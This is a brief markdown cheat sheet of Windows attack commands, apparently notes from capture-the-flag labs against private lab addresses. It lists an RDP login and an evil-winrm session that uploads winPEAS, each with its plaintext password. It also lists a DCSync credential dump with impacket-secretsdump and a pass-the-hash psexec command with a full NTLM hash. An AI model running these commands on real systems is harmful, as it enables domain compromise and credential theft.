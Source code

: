 # Windows Commands

Used to gain access through RDS.
```
xfreerdp /v:10.10.29.125 /u:thm-unpriv /p:Password321 +clipboard
```

#### Evil-WinRm
```
#connect to system with eveil-winrm
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'

#command to upload files through win-rm
upload ~/windows_programs/winPEASany.exe
```

#### DCSync Attack
```
impacket-secretsdump egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

#### Pass-the-Hash attack
```
impacket-psexec egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```
